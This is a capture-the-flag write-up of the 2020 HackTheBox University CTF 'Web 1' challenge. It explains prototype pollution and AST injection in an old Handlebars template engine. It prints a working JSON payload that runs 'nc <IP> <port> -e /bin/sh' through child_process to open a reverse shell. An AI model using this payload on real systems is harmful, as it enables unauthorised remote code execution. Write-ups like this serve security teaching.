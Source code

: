 # Web 1

> I forgot the name of the challenge, I will update it once challenges become accessible again.

**Web 1** the first web challenge of the 2020 HackTheBox University CTF Qualifications. The attacker need to use AST Injection to get remote code execution.

![Title](img/1.png)

The website is a portfolio of a fictional music band. After exploring it, the only interesting thing found was an input field asking for the name of the user's favourite band member. When a correct name (`Haigh`, `Westaway` or `Gingell`) is given a message shows up thanking the user (`guest` in this case). This and the fact that the title of the website is **AST Injection** makes what should be searched obvious.

In the downloadable part of the challenge, a file called `routes.js` contains a hint (more like a spoil) to a [po6ix article](https://blog.p6.is/AST-Injection/) about **prototype pollution**.

![Routes](img/2.png)

To give each user a custom reply containing his name, the website uses AST to modify template such as `Hello {{ user }}`. Handlebars is a template engine used to do such template manipulation but older versions of it are vulnerable to **prototype pollution** (properly explained in [po6ix's article](https://blog.p6.is/AST-Injection/)).

Using **burpsuite**, the artist name search request can be intercepted and injected with the malicious code.
```js
{
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`nc <IP> <port> -e /bin/sh`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})
```
![Burpsuite](img/3.png)
![Shell](img/4.png)

**s/o [ABH](https://www.abhw0rld.com/) for the public IP VM used to get the reverse shell ;)**